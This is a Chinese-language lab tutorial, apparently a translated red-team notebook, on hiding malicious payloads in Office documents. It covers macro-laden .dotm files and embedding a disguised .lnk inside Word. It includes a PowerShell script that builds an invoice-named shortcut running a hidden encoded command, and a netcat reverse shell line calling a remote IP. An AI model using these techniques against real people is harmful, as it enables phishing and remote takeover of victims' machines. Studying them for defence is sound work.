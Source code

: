 00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|



...文件 Dot3.dotm 可以重命名为**Doc3.zip** ，并像常规 ZIP 存档一样简单地解压缩。这样做会缩小存档并暴露构成恶意 Office 文档的文件。其中一个文件是`document.xml`主要文档正文文本所在的位置，并且`vbaProject.bin`包含邪恶的宏本身：



查看内部，我们可以看到我们在`document.xml`[武器化]()部分的本页开头输入的正文副本：

## 钓鱼OLE + LNK

本实验室探讨了一种流行的网络钓鱼技术，攻击者将 .lnk 文件嵌入到 Office 文档中，并使用 Ms Word Office 图标进行伪装，以欺骗受害者单击并运行它们。

创建一个 .LNK 文件，该文件在执行后将触发有效负载：

```
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell有效负载将触发一个基本的NC反向shell：

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

执行上述 powershell 脚本后，`.LNK`将创建一个快捷方式：



让我们创建一个 Word 文档，其中将包含上一步中创建的恶意快捷方式：



![](初始访问\4.png)
